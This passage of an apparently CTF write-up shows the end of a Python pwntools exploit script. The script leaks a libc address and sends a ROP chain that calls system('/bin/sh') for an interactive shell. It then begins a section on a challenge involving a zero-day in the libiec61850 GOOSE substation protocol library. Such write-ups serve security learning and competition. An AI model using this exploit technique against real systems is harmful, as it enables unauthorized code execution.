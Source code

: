 ```python
payload += b"B"*0x30
payload += p64(my_input + 0x50)
payload += p64(0)

# libc specific values (simply providing "libc" string didn't work for some reason)
# payload +=b"14300" # local
payload +=b"26000" # remote
payload += p64(0)
payload += b"B"*35

# return to main fread in order to get stdin
# pointer onto our fake heap stack
payload += p64(my_input)
payload += p64(bin_base + 0x1323)

# return to fgets in provide_little_help func
# passing in the stdin ptr on our fake heap stack
print("Stdin ptr ?: ", hex(my_input + 0x8+0x18))
#payload += p64(bin_base + 0x4020+0x18) #rbp, fread
payload += p64(my_input + 0x8 +0x18)
payload += p64(bin_base + 0x126a)

print("payload len: ", hex(len(payload)))

io.send(payload)

io.recvuntil("26000: ") # remote
#io.recvuntil("14300: ")

libc.address = int(io.recv(12), 0x10)
print("Leak: ", hex(libc.address))

# overflow a buffer somewhere in fgets call and win
payload = b"A"*0x10
payload += p64(my_input -0x100)
payload += p64(libc.address+0x27456) # ret
payload += p64(libc.address + 0x27ab5) #pop rdi; ret
payload += p64(next(libc.search(b"/bin/sh")))
payload += p64(libc.sym['system'])
payload += b"A"*0x8

#gdb.attach(io, gdbscript)

io.sendline(payload)

io.interactive()
```

<h2 id="honk-honk-sec">Honk! Honk!</h2>
Honk! Honk! was a pwn challenge and the most interesting challenge to me as it required to find and exploit a zero day in the GOOSE protocol implementation of the [libiec61850](https://github.com/mz-automation/libiec61850) library. The GOOSE (Generic Object-Oriented Substation Event) protocol is a communication protocol used in electrical substations for exchanging status and event data over an Ethernet network.
